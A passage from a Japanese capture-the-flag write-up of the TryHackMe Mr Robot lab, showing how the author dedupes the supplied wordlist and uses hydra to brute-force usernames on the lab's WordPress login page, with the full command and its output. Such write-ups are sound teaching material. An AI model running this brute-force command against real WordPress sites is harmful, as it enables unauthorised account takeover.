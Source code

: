 このまま攻撃に使うと時間がかかるので、中身を `less` で確認してみます。すると、辞書ファイルに重複する内容が多いことに気が付きます。調べると、全単語が 75 行ずつ重複して存在するようです。

```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ sort fsocity.dic | uniq -c | head -n 3
     75 000
     75 000000
     75 000080
```

そのまま使うのは時間の無駄なので圧縮します。すると 96 KB まで圧縮できました（約75分の1）

```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ sort fsocity.dic| uniq > fsocity_uniq.dic
                           
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ du -h fsocity_uniq.dic 
96K     fsocity_uniq.dic
```

では攻撃をしていきます。 `hydra` というブルートフォース攻撃ができるツールで調べます。まずは `pwd:test` で固定、コマンドは[こちら](https://qiita.com/v_avenger/items/fc054e985e79e6eddb4d)を参考にしました。実行には25分かかりましたが、気長に待ちましょう。

```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ hydra -L ./fsocity_uniq.dic -p test 10.10.203.195 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.203.195%2Fwp-admin%2F&testcookie=1:F=Invalid username'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-27 20:39:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.203.195:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.203.195%2Fwp-admin%2F&testcookie=1:F=Invalid username
[STATUS] 445.00 tries/min, 445 tries in 00:01h, 11007 to do in 00:25h, 16 active
[STATUS] 416.33 tries/min, 1249 tries in 00:03h, 10203 to do in 00:25h, 16 active
[STATUS] 446.86 tries/min, 3128 tries in 00:07h, 8324 to do in 00:19h, 16 active
[STATUS] 454.92 tries/min, 5459 tries in 00:12h, 5993 to do in 00:14h, 16 active
[80][http-post-form] host: 10.10.203.195   login: Elliot   password: test
[80][http-post-form] host: 10.10.203.195   login: elliot   password: test
[80][http-post-form] host: 10.10.203.195   login: ELLIOT   password: test
[STATUS] 448.71 tries/min, 7628 tries in 00:17h, 3824 to do in 00:09h, 16 active
[STATUS] 447.82 tries/min, 9852 tries in 00:22h, 1600 to do in 00:04h, 16 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-27 21:04:42
```

`Elliot`, `elliot`, `ELLIOT` という3つの `Username` が正しいものとわかりました。大文字小文字の区別はしていないようです。
試しに `Elliot` でログインしようとすると、`ERROR: The password you entered for the username Elliot is incorrect. Lost your password?` というまたしても**親切な**エラーが返ってきます。
